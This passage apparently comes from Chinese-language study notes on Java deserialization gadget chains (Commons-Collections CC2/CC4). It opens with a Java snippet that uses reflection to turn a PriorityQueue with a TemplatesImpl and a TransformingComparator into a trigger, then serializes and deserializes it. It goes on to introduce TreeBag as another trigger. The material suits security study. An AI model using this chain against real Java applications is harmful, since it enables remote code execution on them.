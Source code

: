         // 4. 构造 kick-off
        PriorityQueue<Object> priorityQueue = new PriorityQueue<>();
        priorityQueue.add("1");
        priorityQueue.add("2");
        // su18 师傅这里该用获取 queue 后修改第一个元素的方法，我这里就直接新建一个覆盖
        Field queueField = priorityQueue.getClass().getDeclaredField("queue");
        queueField.setAccessible(true);
        // 如果像 su18 师傅那样只修改一个的话，那么第二个元素因为不是 TransformerImpl，从而无法调用 `newTransformer()` 而报错
        // 尝试全改成了这个类，结果是命令会调用两次，虽然解决了这个报错，但是最终会引起 TransformerImpl cannot be cast to java.lang.Comparable
        // 只能说，逃不掉的，报错是一定的。
        queueField.set(priorityQueue, new TemplatesImpl[]{templates, templates});
        
        // 5. 将 kick-off 和 chain 相连
        Field comparatorField = priorityQueue.getClass().getDeclaredField("comparator");
        comparatorField.setAccessible(true);
        comparatorField.set(priorityQueue, transformingComparator);
        String serialize = serialize(priorityQueue);
        unSerialize(serialize);
    ```

### 10.2 CC4-2 新的 kick-off `TreeBag & TreeMap`

1. 在 CC2 中提到：[寻找可以参与序列化，其 `readObject()` 最终会执行排序的逻辑，同时其 `Comparator` 可以指定的类](#8.3 kick-off)。除了 CC2 中的 `PriorityQueue`，现在还寻找到了一个类：`TreeBag`。

2. Java 中第一次听说 `Bag`，先来了解一下 `Bag` 吧。`Bag` 这种数据结构的意义在于，有时候需要在 `Collection` 中存放多个相同对象的拷贝，并且需要很方便的取得该对象中拷贝的个数 。 需要注意的一点是它虽然继承 JDK 中的 `Collection` ，但是如果真把它完全当作 `java.util.Collection` 来用会遇到语义上的问题。
    既然要找和排序相关的，那么就会留意这个接口：`SortedBag`。
    ![image-20241001194539900](Serialization-Java/image-20241001194539900.png)
    定位 `TreeBag`：
    ![image-20241001194635274](Serialization-Java/image-20241001194635274.png)